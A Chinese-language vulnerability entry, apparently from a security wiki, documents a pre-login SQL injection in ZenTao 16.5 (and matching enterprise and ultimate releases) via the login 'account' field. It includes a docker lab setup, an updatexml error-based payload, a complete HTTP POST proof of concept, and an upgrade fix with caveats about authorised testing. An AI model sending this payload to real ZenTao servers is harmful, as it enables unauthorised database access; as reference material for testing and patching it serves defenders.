


# 禅道ZenTao account前台SQL注入

## 条目说明

- 对象与具体问题：禅道ZenTao；account前台SQL注入
- 版本、配置及部署条件：开源16.5/16.5beta1，企业6.5/6.5beta1，旗舰3.0/3.0beta1
- 认证与权限前提：登录前输入
- 核验边界：已完成原始 Markdown 的文本审阅；未执行 PoC、未访问目标、未视检截图。来源所述影响与复现结果不等于本库独立验证。

## 证据边界与更正

以下记录原始资料的证据边界。可以由原文确定的产品、编号及格式问题已在本条修订；没有原始证据的版本、响应和补丁信息仍待核实。

- 元数据只开源范围遗漏两个商业分支，可结构化多分支
- account updatexml载荷与login路径明确，HTTP Content-Length92小于编码body需核
- 响应仅图，官方手册是通用资料而非具体CNVD公告；补固定修复版
- 默认root口令实验限定，不能当目标默认

## 操作风险

现有材料未完整列明副作用；示例不保证只读或无状态变化。保留原示例供静态分析；仅可在明确授权的隔离测试环境验证，事先准备备份与回滚。凭据示例如含星号，仅保留首尾用于说明，不能直接使用。

## 技术资料与来源记录

### 漏洞描述

禅道项目管理系统 v16.5 版本未对输入的 account 参数内容作过滤校验，导致攻击者拼接恶意 SQL 语句执行。

参考链接：

- https://www.zentao.net/book/zentaoprohelp/41.html
- https://www.zentao.net/book/zentaopms/405.html

### 漏洞影响

```
禅道 16.5，16.5beta1（开源版）  
禅道 6.5，6.5beta1（企业版）  
禅道 3.0，3.0beta1（旗舰版）
```

### 环境搭建

执行如下命令启动一个禅道 16.5 服务器：

```
docker compose up -d
```

docker-compose.yml

```
services:
  zentao:
    image: easysoft/zentao:16.5
    ports:
      - "8084:80"
    environment:
      - MYSQL_INTERNAL=true
    volumes:
      - /data/zentao:/data
```

服务启动后，访问 `http://your-ip:8084` 即可查看到安装页面，默认配置安装直至完成，数据库默认账号密码为 `root/123456`：




### 漏洞复现

报错型注入 payload：

```
admin' AND updatexml(1, concat(0x7e, (SELECT version()), 0x7e), 1) AND '1'='1 
```

poc：

```http
POST /user-login.html HTTP/1.1
Host: your-ip:8084
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/134.0.0.0 Safari/537.36
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Origin: http://your-ip:8084
Accept-Language: en,zh-CN;q=0.9,zh;q=0.8
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://your-ip:8084/index.php

account=admin%27+AND+updatexml%281%2C+concat%280x7e%2C+%28SELECT+version%28%29%29%2C+0x7e%29%2C+1%29+AND+%271%27%3D%271
```

> 请求长度说明：原资料 Content-Length 为 92；静态长度已移除，应由客户端根据最终请求体的字节数生成。




### 漏洞修复

升级至最新版本 https://www.zentao.net/


---

> 来源：Threekiii/Vulnerability-Wiki（https://github.com/Threekiii/Vulnerability-Wiki）
